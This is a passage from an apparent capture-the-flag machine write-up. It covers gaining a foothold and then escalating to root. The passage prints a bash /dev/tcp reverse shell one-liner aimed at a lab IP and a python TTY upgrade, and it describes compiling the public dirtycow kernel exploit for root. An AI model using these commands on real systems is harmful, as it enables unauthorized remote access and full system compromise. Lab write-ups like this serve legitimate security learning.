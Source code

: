 ```
bash -c "bash -i >& /dev/tcp/10.10.14.8/443 0>&1"
```

quick reverse shell

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250909175454.png)

Now grab user flag

## Privilege Escalation

While I was checking for flag I found interesting zip file in george directory
Let's check it befor launching linpeas.

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250909175607.png)

and nothing intesting here, just site in zip
Next upgrade to TTY shell and run linpeas

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

This is old machine so should be a lot of vectors

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250909182740.png)

outdated system so will be many kernel exploits, sudo outdated but we cannot run

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250909182721.png)

and mysql running as root

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250909182616.png)

Ok let's start 
A lot of kernel exploits

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250909182959.png)

I like dirtyCow and didn't use it for a while so let's do it this way:
https://github.com/firefart/dirtycow
clone, send to machine compile like in readme.md and we have root access

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250909183833.png)

now su or ssh 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250909183815.png)